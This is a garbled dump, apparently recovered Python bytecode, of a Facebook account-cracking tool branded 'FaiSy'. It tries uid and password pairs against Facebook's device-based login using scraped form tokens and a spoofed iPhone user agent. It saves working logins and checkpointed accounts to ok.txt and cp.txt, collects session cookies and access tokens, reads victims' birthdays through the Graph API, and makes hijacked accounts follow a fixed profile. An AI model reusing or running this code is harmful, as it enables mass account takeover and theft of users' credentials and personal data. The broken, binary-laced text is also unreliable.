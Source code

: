 �Host�upgrade-insecure-requests�

user-agent�acceptZdnt�x-requested-with�sec-fetch-site�sec-fetch-mode�sec-fetch-user�sec-fetch-dest�referer�accept-encoding�accept-languagezhttps://zV/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F)�headerszname="lsd" value="(.*?)"r   zname="jazoest" value="(.*?)"Zlogin_no_pinz8https://developers.facebook.com/tools/debug/accesstoken/)ZlsdZjazoest�uidZflow�pass�next�	max-age=0z!application/x-www-form-urlencodedz�Mozilla/5.0 (iPhone; CPU iPhone OS 15_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.4 Mobile/15E148 Safari/604.1 ;FBMD/iPhone;FBSN/iOS;FBSV/13.4.1;FBSS/2;FBID/phone;FBLC/en_US;FBOP/5]ZXMLHttpRequest)r[   �

cache-controlr\   r2   �content-typer]   r^   r_   r`   ra   rb   rc   rd   re   rf   z-/login/device-based/validate-password/?shbl=0F)�datarg   Zallow_redirectsZc_user�;c                 S   s   g | ]

\}}|d  | �qS )�=r#   )�.0�key�valuer#   r#   r$   �

<listcomp>  s    z&__xxx__.__metode__.<locals>.<listcomp>�

z[FaiSy-OK] z | z%s|%szok.txt�az%s

Z

checkpointz

.token.txtzhttps://graph.facebook.com/z?fields=birthday&access_token=Zbirthday�/z

%s[FaiSy-CP] %s | %s zcp.txtr1   )$r   r   r   �loopr&   rH   r+   r.   r   �lowerrB   �SessionrC   �re�searchr*   �text�groupZpost�cookiesZget_dict�join�itemsr'   r(   �appendrR   �followrS   rE   �split�	bulan_ttl�M�KeyError�IOError�

__metode__)rN   �userZ__chi__ZcebokZpw�session�header�rZdasZheader1Zpo�cokiZwrtZtokenzZcp_ttl�month�day�yearr#   r#   r$   r�   �   s�   *�



���	

���

��



z__xxx__.__metode__c                 C   sN   t |jdd|id�jd�}|jddd��d�}|jd	t|� d|id�j d S )

Nz8https://free.facebook.com/profile.php?id=100007607054845�cookie�r   zhtml.parserrv   ZIkuti)�stringZhrefzhttps://free.facebook.com)r   rC   r}   �findr*   )rN   r�   r�   r�   rC   r#   r#   r$   r�   <  s   ���z__xxx__.followc                 C   sJ  t d� t d� t d� t d� t d� td�}|dkr&t d� | ��  d S |d	v r�t�d

� t t� t d� t d� t d

� td�}t dt| j� � t d� t d� tdd���}| jD ]u}zn|�	d�\}}|�	d�}t|�dks�t|�dks�t|�dks�t|�dkr�||d |d  g}n

||d |d  g}|dkr�|�

| j||d� n%|dkr�|�
